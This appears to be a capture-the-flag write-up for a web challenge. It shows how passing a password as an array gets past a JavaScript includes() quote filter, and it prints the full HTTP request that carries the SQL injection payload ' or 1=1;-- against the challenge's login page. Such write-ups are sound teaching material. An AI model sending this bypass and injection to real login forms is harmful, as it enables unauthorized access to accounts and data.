 When includes is used on an array, it checks to see if one of the elements equals the passed in parameter. When includes is used on a string, it checks to see if any subtring of the string equals the parameter.

This means we can bypass the filter and include a single quote by making the parameter an array.

![ex2](https://i.ibb.co/28vhwnF/image.png)

So this is how the query would print.

In order to do this, we can use burpsuite and modify the request.

Here's a regular request:

```
POST /login HTTP/1.1
Host: missing-flavortext.dicec.tf
Connection: close
Content-Length: 27
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://missing-flavortext.dicec.tf
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://missing-flavortext.dicec.tf/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

username=admin&password=lol
```

Now we can modify password to become an array:

```
POST /login HTTP/1.1
Host: missing-flavortext.dicec.tf
Connection: close
Content-Length: 27
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://missing-flavortext.dicec.tf
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://missing-flavortext.dicec.tf/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

username=admin&password[]=' or 1=1;--
```
